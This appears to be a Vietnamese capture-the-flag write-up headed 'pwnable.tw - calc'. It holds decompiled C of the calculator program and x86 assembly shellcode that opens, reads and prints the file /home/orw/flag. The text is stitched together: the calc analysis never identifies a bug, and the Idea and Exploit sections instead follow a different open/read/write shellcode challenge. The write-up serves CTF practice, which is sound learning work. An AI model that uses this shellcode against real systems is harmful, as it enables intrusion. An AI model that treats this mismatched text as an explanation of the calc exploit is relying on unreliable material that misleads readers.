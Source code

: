 # pwnable.tw - calc

Have you ever use Microsoft calculator?

`nc chall.pwnable.tw 10100`

# 1) Analysis and find Bug

Đầu tiên ta kiếm tra các secure flag và xem thông tin cơ bản của file.

![checksec.png](images/checksec.png)

Ta tiến hành đọc và phân tích mã nguồn chương trình bằng IDA để tìm hướng khai thác.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```

Hàm main của chương trình set timeout - chương trình sẽ tự động ngắt kết nối nếu không có tác động input đầu vào nào. Sau đó là gọi tới hàm `calc()`.

```c
unsigned int calc()
{
  int v1[101]; // [esp+18h] [ebp-5A0h] BYREF
  char s[1024]; // [esp+1ACh] [ebp-40Ch] BYREF
  
  // canary
  unsigned int v3; // [esp+5ACh] [ebp-Ch]
  v3 = __readgsdword(0x14u);
  
  while ( 1 )
  {
    bzero(s, 0x400u);
    if ( !get_expr(s, 1024) )
      break;
    init_pool(v1);
    if ( parse_expr(s, v1) )
    {
      printf("%d\n", v1[v1[0]]);
      fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ v3;
}
```



# 2) Idea

Ở phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write`, khi chúng ta nhập input là shellcode thì chương trình sẽ thực hiện các công việc mà shellcode đó yêu cầu. Ở đây ta sẽ dùng `syscall_open` để mở file flag ở `/home/orw/flag` và dùng `syscall_read`, `syscall_write` để đọc và ghi flag ra `terminal`, còn về shellcode 32bit thì ta phải tự viết vì đây không phải là shellcode execute nên không phổ biến để chọn.

# 3) Exploit

Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành mã shellcode. Tôi dùng tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) để làm điều đó.

![shellcode.png](images/shellcode.png)

# 4) Source code and get Flag

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

![flag.png](images/flag.png)

------------------------------------------------------
